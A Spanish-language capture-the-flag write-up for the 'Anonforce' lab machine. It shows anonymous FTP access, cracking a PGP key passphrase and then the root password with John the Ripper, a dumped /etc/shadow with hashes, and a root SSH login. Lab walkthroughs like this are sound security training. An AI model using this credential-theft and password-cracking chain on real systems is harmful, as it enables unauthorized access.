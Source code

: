 
# SCAN
Hay dos puertos abiertos:
1. 21: ftp con anonymous
2. 22: ssh

# FTP ANONYMOUS
Entramos y en el directorio /home nos deja leer el user.txt (muy facil)
Vamos al directorio raiz y vemos que hay un directorio sospechoso que se llama "notread" y dentro dos archivos:
1. backup.pgp: Es un archivo encriptado pgp (pretty good privacy)
2. private.asc: Es un archivo ascii armour (blindado) que contiene la clave privada

# Desencriptar el fichero backup.pgp
Para desencriptar el fichero necesitamos dos cosas:
1. Clave Privada
2. Passphrase

La clave privada la tenemos, nos hace falta el passphrase. Se puede obtener a partir de la clave privada y JtR. Primero tenemos que convertir la
clave privada en un hash con "pgp2john" y despues aplicar JtR
```
┌──(kali㉿kali)-[~/boxes/anonforce]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xbox360          (anonforce)     
1g 0:00:00:00 DONE (2022-07-17 12:47) 2.500g/s 2325p/s 2325c/s 2325C/s xbox360..sheena
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Ahora podemos ya desencriptar el fichero con el programa gpg:
1. primero importamos la clave privada
```
┌──(kali㉿kali)-[~/boxes/anonforce]
└─$ gpg --import private.asc 
gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
gpg: key B92CD1F280AD82C2: public key "anonforce <melodias@anonforce.nsa>" imported
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

```
Nos pide introducir el passphrase que hemos obtenido en el anterior paso
2. Desencryptamos el archivo
```
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18120:0:99999:7:::
uuidd:*:18120:0:99999:7:::
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
sshd:*:18120:0:99999:7:::
ftp:*:18120:0:99999:7:::
```
Como vemos el fichero contiene el archivo /etc/shadow
Con ftp anonymous podemos obtener el /etc/passwd
con los dos utilizando "unshadow" podemos obtener el hash y a traves de JtR el password de root
```
┌──(kali㉿kali)-[~/boxes/anonforce]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt us
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hikari           (root)     
1g 0:00:00:04 DONE (2022-07-17 12:59) 0.2212g/s 1529p/s 1529c/s 1529C/s 98765432..better
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
# SSH
Nos logeamos en ssh como root y de forma automatica obtenemos el root flag
